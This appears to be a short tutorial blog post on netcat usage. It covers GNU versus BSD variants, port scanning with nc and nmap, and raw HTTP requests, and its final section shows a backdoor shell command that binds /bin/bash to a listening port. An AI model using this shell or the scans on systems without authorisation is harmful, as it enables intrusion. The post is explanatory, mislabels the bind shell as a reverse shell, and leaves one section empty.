 ```yaml
---
layout: post
title: How to use netcat command
author: Jeffrey Tse
categories: computer
tags:
  - computer
  - linux
  - terminal
  - note
---
```


## Introduction

Command `nc` stands for **netcat**, known as the swiss army knife of
network tools, it's a utility which is used for reading and writing
data across TCP and UDP ports. It can be used for a lot of cool
stuff, this article will take a closer look.

There are two similar packages available for netcat with a slight
difference between them:

- Traditional GNU netcat (such as Ncat in the CentOS is nmap package)
- OpenBSD nc (such as the nc that comes with MacOS).

Their parameters are not exactly the same. For example, BSD `nc`
cannot use `-p` and `-l` at the same time, which is easy to cause
confusion for novices.

netcat/nc/ncat/nmap

- **Linux/macOS** users can quickly use in the terminal with pre-installed
  Nc (and Netcat on Linux)
- **Windows** users will need to install Netcat’s successor, Ncat, made
  by the Nmap project

## Using for port scanning

```bash
nc -zv domain.com 1-1000
```

```bash
nc -znv 1.2.3.4 1-1000
```

```bash
nmap -Pn 1.2.3.4
```

- `-z` – See if the port is open without sending data
- `-n` – Dont resolve, numeric-only IP addresses, no DNS lookup
- `-v` – Show verbose information
- `-w` – Set a timeout between the client and the target node, otherwise
  Netcat will continue trying until a connection is made or you manually
  close the attempt (`Ctrl + C`)

## Using for HTTP Requests

```bash
printf “GET / HTTP/1.0\r\n\r\n” | nc google.com 80
```

## Using for Chatroom

## Launching Reverse (Backdoor) Shells

Server:

```bash
nc -l -p [port] -e /bin/bash
```

Client:

```bash
nc -n 127.0.0.1 [port]
```
